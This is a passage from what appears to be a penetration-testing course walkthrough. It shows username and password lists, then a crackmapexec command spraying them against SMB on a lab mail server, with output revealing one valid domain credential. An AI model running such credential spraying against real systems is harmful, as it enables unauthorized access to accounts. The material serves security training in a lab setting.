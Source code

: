 ```
kali@kali:~/beyond$ cat usernames.txt                                         
marcus
john
daniela

kali@kali:~/beyond$ cat passwords.txt
tequieromucho
DanielKeyboard3311
dqsTwTpZPn#nL
```

> Listing 30 - Displaying the created lists containing the identified usernames and passwords

Now we have two lists containing the usernames and passwords we have identified so far.

Our next step is to use **crackmapexec** and check these credentials against SMB on MAILSRV1. We'll specify **\--continue-on-success** to avoid stopping at the first valid credentials.

```
kali@kali:~/beyond$ crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success
SMB         192.168.50.242  445    MAILSRV1         [*] Windows 10.0 Build 20348 x64 (name:MAILSRV1) (domain:beyond.com) (signing:False) (SMBv1:False)
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\marcus:dqsTwTpZPn#nL STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\john:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [+] beyond.com\john:dqsTwTpZPn#nL
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:tequieromucho STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:DanielKeyboard3311 STATUS_LOGON_FAILURE 
SMB         192.168.50.242  445    MAILSRV1         [-] beyond.com\daniela:dqsTwTpZPn#nL STATUS_LOGON_FAILURE
```

> Listing 31 - Checking for valid credentials with CrackMapExec

Listing 31 shows that CrackMapExec identified one valid set of credentials. This isn't much of a surprise since we retrieved the username and password from the staging script on WEBSRV1. However, *john* could have changed their password in the meantime.

The output shows another great CrackMapExec feature: it identified the domain name and added it to the usernames. This means that MAILSRV1 is a domain-joined machine, and we have identified a valid set of domain credentials.

Now that we have valid domain credentials, we need to come up with a plan for our next steps. Reviewing the CrackMapExec output and the port scan for MAILSRV1, we don't have many options. We have identified the mail server and SMB, but no services such as WinRM or RDP. In addition, the scan showed that *john* is not a local administrator on MAILSRV1 as indicated by the missing *Pwn3d!*.
